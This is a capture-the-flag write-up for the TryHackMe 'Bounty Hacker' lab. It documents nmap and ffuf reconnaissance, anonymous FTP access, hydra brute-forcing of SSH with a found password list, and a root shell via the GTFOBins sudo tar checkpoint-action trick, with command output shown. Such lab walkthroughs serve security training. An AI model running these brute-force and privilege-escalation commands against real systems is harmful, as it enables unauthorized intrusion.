 # Bounty Hacker
Try Hack Me room
ip=10.10.152.23

# Reconnaissance 
### Nmap 
```bash
nmap -T5 -sV  $host_ip

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Saved ip to /etc/host so i dont need to remenber ip 

Saved as => Bounty_hacker.thm

Going to that port we found a web hosted 

### Port 80

Looked into robots.txt nothing found so moved to fuzz it using ffuf
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://bounty_hacker.thm/FUZZ  -r 
```
Didn't find anything intersting. Since the box was easy i went to try the other ports 

### FTP 
Saw that Anonymous login was enabled on port 21. Intersting maybe there is something there. Found 2 files on the FTP server.
Lets GET them and see what happens.

(FTP.png)

## Lock.txt
This text file has what looks like some kind of credential, but to what? Lets try them on SSH since thats another open port.  
Note: We also found another text file on the ftp with a note 
	'
		1.) Protect Vicious.
		2.) Plan for Red Eye pickup on the moon.

		-lin
	'

## Gaining Access 
Lets try to bruteforce with the credentials we have and the user lin since its mentioned. 
```bash
hydra -l lin -P locks.txt 10.10.152.23  ssh 

```
Hoorray We are in !
```bash
	lin@bountyhacker:~/Desktop$ ls
	user.txt
	lin@bountyhacker:~/Desktop$ cat user.txt 

```

## Privilege Escalation
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin              
                                                                                                                                   
User lin may run the following commands on bountyhacker:                                                                           
    (root) /bin/tar 

```
We can see that lin can run tar binary with special privilege lets check if [gtfobins](https://gtfobins.github.io/) on how to privilege our way.

We can search the tar binary 

[https://gtfobins.github.io/](https://gtfobins.github.io/)
We can see that we can use sudo to gain better pprivilege  using 
```bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
And we are in 
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh                       
tar: Removing leading `/' from member names                                                                                        
# whoami                                                                                                                           
root         
```
DONE !!!